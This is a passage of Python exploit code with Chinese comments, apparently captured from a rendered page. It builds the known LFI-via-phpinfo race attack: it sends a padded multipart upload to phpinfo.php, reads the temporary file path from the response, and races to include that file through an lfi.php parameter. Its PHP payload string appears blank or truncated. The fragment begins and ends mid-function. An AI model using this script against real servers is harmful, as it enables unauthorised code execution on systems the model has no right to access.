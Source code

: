 ```python
    boundary = '---------------------------11008921013555437861019615112'#分隔符
    #
     
    # php_path maybe '/lfi_phpinfo' or ''
    php_path = ''
     
    payload = "{tag}\r\n".format(tag=tag)
    payload += '<?php                                                                  ?>\');?>'
     
    req_data = '--{b}\r\n'.format(b=boundary)
    req_data += 'Content-Disposition: form-data; name="file"; filename="file.txt"\r\n'
    req_data += 'Content-Type: text/plain\r\n'
    req_data += '\r\n'
    req_data += '{payload}\r\n'.format(payload=payload)
    req_data += '--{b}--'.format(b=boundary)
     
    # padding for delay php server delete tmp file
    # 这种方式是phpinfo返回发送的头信息，信息过大的话就采用分块传输，padding增加了传输时间,根据需要改
    padding = 'A' * 8000
     
    req = 'POST {path}/phpinfo.php?a={padding} HTTP/1.1\r\n'.format(path=php_path, padding=padding)
    req += 'Host: {host}\r\n'.format(host=host)
    req += 'Cookie: othercookie={padding}\r\n'.format(padding=padding)
    req += 'User-Agent: {padding}\r\n'.format(padding=padding)
    #req += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n'
    req += 'Accept: {padding}\r\n'.format(padding=padding)
    req += 'Accept-Language: {padding}\r\n'.format(padding=padding)
    req += 'Accept-Encoding: {padding}\r\n'.format(padding=padding)
    req += 'Content-Type: multipart/form-data; boundary={b}\r\n'.format(b=boundary)
    req += 'Content-Length: {l}\r\n'.format(l=len(req_data))
    req += 'Connection: close\r\n'
    req += '\r\n'
    req += '{data}'.format(data=req_data)
     
    # modify this to suit the LFI script
    lfi_req = 'GET {path}/lfi.php?load=%s HTTP/1.1\r\n'.format(path=php_path)
    lfi_req += 'Connection: Keep-alive\r\n'
    lfi_req += 'Host: %s\r\n'
    lfi_req += '\r\n'
     
    return (req, tag, lfi_req)

 


def lfi_phpinfo(host, port, phpinfo_req, offset, lfi_req, tag):
    s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s1.connect((host, port))
    s2.connect((host, port))
     
    s1.sendall(phpinfo_req)
    data = ""
    while len(data) < offset:
        data += s1.recv(offset)
     
    try:
        index = data.index("[tmp_name] =>")
        fn = data[index+17: index+31]
    except ValueError as e:
        err_msg = "fetch temp file path error: {e}".format(e=e)
        log.error(err_msg)
```